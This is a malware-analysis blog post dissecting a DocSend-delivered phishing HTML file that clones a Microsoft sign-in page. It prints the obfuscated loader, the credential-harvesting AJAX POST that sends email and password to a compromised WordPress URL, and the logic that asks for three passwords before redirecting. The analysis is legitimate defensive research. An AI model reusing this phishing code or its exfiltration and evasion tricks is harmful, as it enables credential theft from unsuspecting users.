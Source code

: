 +++
author = "Brian Stadnicki"
title = "Docsend Payment Audistore phisher"
date = "2021-11-30"
categories = [ "malware analysis" ]
tags = [ "reverse engineering", "malware", "html", "phishing", "js" ]
+++

![Overview](/posts/malware-docsend-payment-phisher-audi/overview.png)

This phishing sample was delivered through `docsend` and relies on the user opening the downloaded html file and logging into microsoft. Sample collected from [JOESandbox](https://www.joesandbox.com/analysis/898395). 

MD5: `7d6375abf1cff57c9d7da133cfaf0782`

# Loader

```
<!--
TG9yZW0gaXBzdW0gZG9sb3Igc2l0IGFtZXQsIGNvbn
...  --><script type='text/javascript'>document.write('\u003C\u0021\u002D\u002D\u0058\u0056\u005A\u0054\u0074\u006D...');</script><!-- TgZG9sb3Igc2l0IGFtZXQsIGNvbnNlY3R
...
G1vZG8gdHlwaSwgcXVpIG51bmMgbm9iaXMgdmlkZW50dXIgcGFydW0gY2xhcmksIGZpYW50IHNvbGxlbW5lcyBpbiBmdXR1cnVtLg

### ### -->
```

There's a large comment full of likely random data to help evade detection, and a call to `document.write`, which writes text to the document stream.

# Packed

First of all, it appears the embedded html page was packed using [Proteger HTML](https://www.ProtegerHtml.com/en), and their license expires on `Sun Dec 05 2021 01:29:00 GMT`, that's in just 5 days of this post being published. 

```js
var timeexpiracion=1638667740;
var timehoy = Math.round(+new Date()/1000);
if (timehoy>timeexpiracion) { alert ("The HTML Code of this Website was Encrypted Free at: www.ProtegerHtml.com/enNOTE: To encrypt your Website without..."
```

The blurred out word document is, as usual, just an image hosted on `gyazo`.

```html
<body style="background-image: url('https://i.gyazo.com/d1b2270a564efe0c37d2e01ed1c647a8.png'); ...>
```

## Form

The microsoft form is a clone in terms of html and css of the real one, the difference is the javascript driving it. The create account and alternative sign-in links are just `#` of course.

```js
var base64regex = /^([0-9a-zA-Z+/]{4})*(([0-9a-zA-Z+/]{2}==)|([0-9a-zA-Z+/]{3}=))?$/;
if (!base64regex.test(email)) {  
```

There's even input validation on the email.

When the user clicks next, the malware fetches the email's logo using clearbit, eg `https://logo.clearbit.com/google.com`, defaulting to the microsoft logo.

![Enter password form](/posts/malware-docsend-payment-phisher-audi/enter-password.png)

When the user presses sign in, the text changes to `verifying..`, and a POST request is sent to the collection server.

```js
$.ajax({
    dataType: 'JSON',
    url: "https://www.audistore.com.ar/wp-admin/user/user/next.php",
    type: 'POST',
    data: {
        email: email,
        password: password,
        detail: detail,
    }
```

The `detail` in the request body appears to be nothing.

```js
$("#password").val("");
if (count >= 3) {
    count = 0;
    $("#div2").animate({ left: 0, opacity: "hide" }, 0);
    $("#div3").animate({ left: 0, opacity: "show" }, 500);
    setTimeout(() => {
        window.location.replace("https://office365.com/");
    }, 500);
    return false;
}
```

The form errors 2 times before redirecting the user to `https://office365.com/`, in order to collect any other passwords the user has.

![Sign in attempt timeout](/posts/malware-docsend-payment-phisher-audi/sign-in-attempt-timeout.png)

![Password incorrect](/posts/malware-docsend-payment-phisher-audi/password-incorrect.png)

After collecting 3 of the user's passwords, it gives a very dodgy looking success screen.

![Success redirecting](/posts/malware-docsend-payment-phisher-audi/success-redirecting.png)

Then it redirects to `https://office365.com/`.

## Audi Store

The credentials are collected at `https://www.audistore.com.ar/wp-admin/user/user/next.php`. Only the (CRDF)[https://crdf.fr] has placed this domain on the malicous URL list so far.

![Audi store](/posts/malware-docsend-payment-phisher-audi/audistore.png)

Looks like somebody forgot to update their wordpress installation...

I've contacted them to try to get this removed from their website.
